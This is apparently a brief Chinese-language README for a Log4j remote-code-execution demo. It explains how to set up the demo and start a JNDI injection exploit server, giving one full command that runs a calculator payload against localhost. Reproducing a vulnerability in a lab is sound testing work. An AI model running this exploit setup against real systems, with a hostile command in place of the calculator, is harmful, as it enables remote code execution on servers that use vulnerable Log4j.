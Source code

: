# log4jdemoforRCE

# step1.
下载本demo搭建
# step2.
jndi 服务用 https://github.com/welk1n/JNDI-Injection-Exploit搭建

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /Applications/Calculator.app" -A "127.0.0.1"

注意 mac上的计算器路径不一样。吗的。。。 刚才我都怀疑人生了。我是mac monterery了


# step3.

运行。。。很简单


